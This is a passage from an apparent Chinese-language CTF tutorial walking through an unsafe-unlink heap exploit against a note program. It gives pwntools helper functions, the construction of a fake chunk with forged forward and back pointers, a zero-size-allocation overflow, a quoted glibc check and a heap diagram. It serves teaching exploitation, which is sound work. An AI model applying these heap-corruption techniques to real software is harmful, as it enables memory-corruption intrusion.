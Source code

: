 ```python
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 生成三个note

构造三个 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

其中这三个 chunk 申请时的大小分别为0x80，0，0x80，chunk1 虽然申请的大小为0，但是 glibc 的要求 chunk 块至少可以存储 4 个必要的字段(prev\_size,size,fd,bk)，所以会分配 0x20 的空间。同时，由于无符号整数的比较问题，可以为该note输入任意长的字符串。

这里需要注意的是，chunk0 中一共构造了两个 chunk

- chunk ptr[0]，这个是为了 unlink 时修改对应的值。
- chunk ptr[0]'s nextchunk，这个是为了使得 unlink 时的第一个检查满足。

```c
    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

当构造完三个 note 后，堆的基本构造如图1所示。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
```